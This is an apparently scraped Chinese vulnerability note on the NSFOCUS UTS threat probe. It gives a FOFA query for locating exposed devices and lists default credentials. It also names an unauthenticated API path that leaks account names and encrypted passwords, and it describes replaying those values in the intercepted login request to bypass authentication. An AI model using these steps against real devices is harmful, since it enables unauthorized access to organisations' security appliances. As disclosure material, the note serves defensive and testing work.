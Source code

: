 # 绿盟 UTS综合威胁探针 信息泄露登陆绕过漏洞

## 漏洞描述

绿盟 UTS综合威胁探针 某个接口未做授权导致未授权漏洞

## 漏洞影响

<a-checkbox checked>绿盟 UTS综合威胁探针 </a-checkbox></br>	

## FOFA

<a-checkbox checked>app="NSFOCUS-UTS综合威胁探针"</a-checkbox></br>

## 漏洞复现

默认口令

<a-checkbox checked>admin/Nsfocus@123</a-checkbox></br>

<a-checkbox checked>auditor/auditor</a-checkbox></br>

登陆页面

![img](../../../.vuepress/public/img/1628385388371-8c2d0646-c565-4233-b44e-02cb22b7eb37.png)

验证POC

```php
/webapi/v1/system/accountmanage/account
```

![img](../../../.vuepress/public/img/1628385427610-3bc1805a-ebb0-4c88-9390-3244af8fe381.png)

这里出现了登录的账号以及加密的 PASS

登陆时的加密字段抓包修改为获取的就可以登陆系统

![img](../../../.vuepress/public/img/1628386133132-32cc96fd-6816-4c83-a753-78d6f30dfaf6.png)

![img](../../../.vuepress/public/img/1628386108554-9d4b5304-cb43-4a67-80b8-a00544149d48.png)
